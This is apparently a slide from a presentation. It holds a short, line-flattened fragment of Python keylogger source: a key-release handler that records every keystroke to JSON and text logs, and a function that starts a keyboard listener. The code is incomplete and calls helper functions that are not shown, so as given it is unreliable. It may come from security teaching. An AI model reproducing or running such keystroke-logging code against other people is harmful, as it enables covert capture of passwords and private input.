

# def on_release(key): global flag, keys_used, keys keys_used.append( {'Released': f'{key}'} ) if flag == True: flag = False generate_json_file(keys_used) keys = keys + str(key) generate_text_log(str(keys)) def start_keylogger(): global listener listener = keyboard.Listener(on_press=on_press, on_release=on_release) listener.start()